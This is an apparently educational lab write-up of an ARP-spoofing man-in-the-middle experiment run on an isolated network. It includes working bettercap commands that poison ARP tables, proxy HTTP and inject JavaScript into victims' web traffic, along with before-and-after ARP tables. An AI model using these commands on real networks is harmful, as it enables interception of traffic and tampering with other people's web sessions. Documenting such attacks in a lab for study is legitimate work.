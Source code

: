 Introduction
------------

The goal of this expirement is to demonstrate how ARP posioning changes values
inside of the ARP table attacked devices, as well as, demonstrate how `bettercap`
can inject javascript into http streams when performing a Man-in-The-Middle.

The video posted to [Youtube](https://youtube.com/TODO) describes the expirement well.

Expiremental Setup
------------------
Inside of an isolated unmanaged network, an attacker performing an ARP spoofing
attack, man in the middles http requests to a website running on a device in the
local network.

- 1 Netgear Max Unmanaged Switch
- 2 Raspberry Pi 3 running Raspbian-Stretch (v4.14)
- 1 Lenovo T480 running Monopticon v0.2.0 and Bettercap v2.22

### Network Design

The photo below shows the yellow ethernet cables

[img-src](should-be-in-contrib.jpg)


### Normal ARP Table
The addresses are statically shown below in the diagram.

```
10.0.0.2 b8:27:eb:71:b2:3e # Bruno
10.0.0.3 b8:27:eb:71: # Cocco
         aa:aa: # Attacker
```

### Poisioning machine

```zsh
> ip address add dev enp0s31f6 10.0.0.1/24

> sudo su
> /home/synnick/go/bin/bettercap -iface enp0s31f6 -eval 'net.recon on; http.proxy on; arp.spoof on; ticker on;'
```


After Poisioning
----------------

ARP Table of Bruno
```
10.0.0.3 aa:aa: # Attacker
```

ARP Table of Cocco
```
10.0.0.2 aa:aa: # Attacker
```


### Attack Results

As shown the once the Lenovo machine starts broadcasting IP addresses

![what it looks like](https://raw.githubusercontent.com/nskelsey/monopticon/master/contrib/screens/local-mitm.gif)

Appendix
--------
## Initial Setup

### Cocco
```zsh
> sudo apt install vim tmux nginx
# changed hostname
# enabled ssh
> enable sshd w/ password
> sudo vim /etc/dhcpdc.conf
# static 10.0.0.3
> wget -r https://soapbox.nskelsey.com --convert-links
> systemctl enable nginx
> cp -fr soapbox.nskelsey.com/* /var/www/html/
> arp -s 10.0.0.2 aa:aa
```

### Bruno
```zsh
> sudo apt install vim tmux
> enable sshd w/ password
# idem w/o nginx
> arp -s 10.0.0.3 aa:aa
```

### Attacker

During the attack execute:

```zsh
> cd /home/synnick/projects/monopticon/build
> ping -c5 10.0.0.2 &; ping -c5 10.0.0.3 &; ./bin/monopticon
> /home/synnick/go/bin/bettercap -eval 'net.recon on; set http.proxy.injectjs "/home/synnick/projects/monopticon/src/expirements/arp-spoof/script.js"; http.proxy on; arp.spoof on; ticker on;'
```
